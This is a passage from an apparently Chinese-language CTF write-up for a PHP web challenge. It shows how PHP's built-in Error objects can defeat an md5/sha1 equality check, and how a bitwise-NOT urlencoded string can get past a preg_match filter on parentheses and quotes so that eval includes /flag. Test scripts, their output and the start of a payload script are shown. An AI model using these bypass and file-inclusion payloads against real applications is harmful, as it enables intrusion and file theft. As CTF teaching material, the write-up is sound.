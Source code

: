 ```
        highlight_file(__FILE__);
    }
    ?>
    ```
    代码中第一个if判断要求原字符串不一样，加密后的密文一样，如果不是在类里面可以直接用数组绕过

    在类里面的话，我们可以使用含有 __toString 方法的php内置类来绕过，用的两个比较多的内置类是 Exception 和Error ，他们之中有一个 __toString 方法,当类被当作字符串处理时，就会调用这个函数，以Error 类为例，我们可控当触发他的__toString 方法时
    
    ```php
    <?php
    $a = new Error("payload",'9');
    echo $a;
    ```
    输出

    ```cmd
    F:\ProgramFiles\php-8.3.4\php.exe D:\desktop\ctf\buu\web\script\php\test.php
    Error: payload in D:\desktop\ctf\buu\web\script\php\test.php:3
    Stack trace:
    #0 {main}
    进程已结束，退出代码为 0
    ```

    会以字符串的形式输出当前报错，包含当前的错误信息，以及他出现错误的行号 3，从而传入Error ("payload",9)中的错误代码 '9' 则没有被输出出来,再来看看如何 绕过md5以及 sha1

    ```php
    <?php
    $a = new Error("payload",'9'); $b = new Error("payload",'0');
    if(md5($a) === md5($b)){
        echo "md5相等" . "\n";
    }

    if(sha1($a) === sha1($b)){
        echo "sha1相等" . "\n";
    }
    ```

    输出：
    ```cmd
    F:\ProgramFiles\php-8.3.4\php.exe D:\desktop\ctf\buu\web\script\php\test.php
    md5相等
    sha1相等
    ```

    由于题目用preg_match过滤了小括号无法调用函数，所以我们尝试直接include "/flag"将flag包含进来即可；由于过滤了引号，于是在这里进行取反，这样解码后就自动是字符串，无需再加双引号或单引号。

    而且eval执行带有完整标签的语句需要先闭合，就类似于将字符串当成代码写入到源码中。

2. payload:

    ```php
    <?php
    class SYCLOVER
    {
        public $syc;
        public $lover;
    }

    $cmd = '/flag';
    $s = urlencode(~$cmd);
```